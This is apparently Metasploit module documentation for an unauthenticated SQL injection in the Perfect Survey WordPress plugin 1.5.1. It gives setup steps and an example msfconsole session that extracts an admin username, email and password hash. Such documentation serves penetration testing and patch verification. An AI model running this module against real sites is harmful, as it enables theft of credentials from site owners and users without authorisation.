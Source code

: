 ## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability
via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information,
such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/).
The specific vulnerable version can be found here: https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Start `msfconsole`.
3. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
4. Set the target host: `set RHOSTS [ip]`.
5. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
6. Execute the module: `run`.
7. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```sh
msf6 > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > exploit 
[*] Running module against 192.168.1.104

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Exploiting SQLi in Perfect Survey plugin...
[*] Extracting credential information

WordPress User Credentials
==========================

 Username  Email                Hash
 --------  -----                ----
 admin     admin@localhost.com  $P$BwkQxR6HIt64UjYRG4D5GRKYdk.qcR1
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) >
```
